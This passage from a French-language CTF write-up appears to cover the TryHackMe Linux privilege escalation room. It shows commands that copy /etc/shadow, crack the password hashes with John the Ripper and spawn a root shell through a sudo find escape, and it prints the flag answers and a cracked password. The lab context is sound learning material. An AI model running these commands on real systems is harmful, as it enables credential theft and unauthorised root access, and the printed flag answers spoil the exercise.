 ## 🔐 Phase 11 : Cracking de hash (base64 + John)

**Objectif :** Extraire puis cracker les mots de passe Linux.

### Sur la machine cible :

```bash
$ base64 /etc/passwd > passwd64.txt
$ base64 /etc/shadow > shadow64.txt
$ base64 -d passwd64.txt > passwd.txt
$ base64 -d shadow64.txt > shadow.txt
$ unshadow passwd.txt shadow.txt > merged.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt merged.txt
$ john --show merged.txt
```

Mot de passe root trouvé : `Password1`

```bash
$ su missy
```

| Flag   | flag1.txt          |
| ------ | ------------------ |
| Answer | THM-42828719920544 |

## 🎯 Phase finale : exécution root via sudo

**Objectif :** Exploiter un dernier privilège sudo pour lancer un shell.

### Sur la machine cible :

```bash
$ sudo -l
$ sudo find / -name "*flag*.txt"      # Localiser les flags
$ sudo find . -exec /bin/sh \; -quit # Obtenir un shell root
```

| Flag   | flag2.txt           |
| ------ | ------------------- |
| Answer | THM-168824782390238 |

---

## 📝 Conclusion

Cette room "Linux Privilege Escalation" m'a permis de consolider mes connaissances sur :

- Les failles kernel et l'importance des mises à jour.
- Les différentes méthodes d'escalade : exploits, sudo, SUID, capabilities, cron, NFS.
- L'art de l'énumération et la recherche d'indices via `ps`, `sudo -l`, `getcap`, etc.

Ce guide structuré reste un support idéal pour mes futurs pentests ou CTF, tout en soulignant l'importance des contrôles de sécurité (AppArmor, SELinux, configurations NFS, permissions).

---

**Auteur :** Saad Idrissi
